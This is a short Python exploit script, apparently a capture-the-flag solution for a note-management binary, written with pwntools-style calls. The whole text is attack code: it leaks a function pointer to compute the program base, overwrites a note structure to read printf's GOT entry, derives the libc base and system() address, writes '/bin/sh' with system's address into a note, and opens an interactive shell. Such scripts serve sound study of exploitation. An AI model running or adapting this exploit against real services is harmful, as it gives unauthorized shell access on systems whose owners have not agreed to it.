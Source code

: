 ```python
add('12',"aaaaaaa\n")
v_func = printnote('2')
elf_base = v_func - 0x98a
printf_got = elf_base + printf_got

print "v_func: " + hex(v_func)
print "elf_base: " + hex(elf_base)
print "printf_got: " + hex(printf_got)

edit('2',p32(0xc) + p32(printf_got) + p32(v_func))
printf_addr = printnote('0',1)
libc_base = printf_addr - libc_printf
system_addr = libc_base + libc_system

print "libc_base: " + hex(libc_base)
print "printf: " + hex(printf_addr)
print "system: " + hex(system_addr)

edit('2',"/bin/sh\x00" + p32(system_addr))
io.recvuntil("Your choice :")
io.sendline('3')	
io.recvuntil("Input the index:")
io.sendline("0")
io.interactive()
io.close()
```
